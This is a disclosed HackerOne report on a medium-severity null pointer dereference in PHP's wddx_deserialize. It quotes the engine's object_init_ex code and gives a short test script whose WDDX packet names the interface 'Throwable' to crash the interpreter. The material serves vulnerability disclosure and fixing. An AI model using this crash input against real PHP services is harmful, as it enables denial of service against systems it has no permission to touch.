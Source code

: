 # NULL Pointer Dereference while unserialize php object

## Report Details
- **Report ID**: 195688
- **URL**: https://hackerone.com/reports/195688
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-01-04T09:39:48.565Z
- **Disclosed**: 2019-11-12T09:19:52.381Z

## Reporter
- **Username**: hoangnguyen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Because no checking result of object_init_ex so that if user passing implement class, abstract class the result of this is FALSE and args is NULL, so that lead program crash
```	if (UNEXPECTED(class_type->ce_flags & (ZEND_ACC_INTERFACE|ZEND_ACC_TRAIT|ZEND_ACC_IMPLICIT_ABSTRACT_CLASS|ZEND_ACC_EXPLICIT_ABSTRACT_CLASS))) {
		if (class_type->ce_flags & ZEND_ACC_INTERFACE) {
			zend_throw_error(NULL, "Cannot instantiate interface %s", ZSTR_VAL(class_type->name));
		} else if (class_type->ce_flags & ZEND_ACC_TRAIT) {
			zend_throw_error(NULL, "Cannot instantiate trait %s", ZSTR_VAL(class_type->name));
		} else {
			zend_throw_error(NULL, "Cannot instantiate abstract class %s", ZSTR_VAL(class_type->name));
		}
		ZVAL_NULL(arg);
		Z_OBJ_P(arg) = NULL;
		return FAILURE;
	}

	if (UNEXPECTED(!(class_type->ce_flags & ZEND_ACC_CONSTANTS_UPDATED))) {
		if (UNEXPECTED(zend_update_class_constants(class_type) != SUCCESS)) {
			ZVAL_NULL(arg);
			Z_OBJ_P(arg) = NULL;
			return FAILURE;
		}
	}

	if (class_type->create_object == NULL) {
		ZVAL_OBJ(arg, zend_objects_new(class_type));
		if (properties) {
			object_properties_init_ex(Z_OBJ_P(arg), properties);
		} else {
			object_properties_init(Z_OBJ_P(arg), class_type);
		}
	} else {
		ZVAL_OBJ(arg, class_type->create_object(class_type));
	}
	return SUCCESS;
```
```
object_init_ex(&obj, pce);

							/* Merge current hashtable with object's default properties */
							zend_hash_merge(Z_OBJPROP(obj),
											Z_ARRVAL(ent2->data),
											zval_add_ref, 0);
```

Test script:
---------------
```
<?php
$xml = <<<EOF
<?xml version="1.0" ?>
<wddxPacket version="1.0">
	<struct>
		<var name="php_class_name">
			<string>Throwable</string>
                </var>
        </struct>
</wddxPacket>
EOF;
	$wddx = wddx_deserialize($xml);
	var_dump($wddx);
?>
```

## Attachments
No attachments
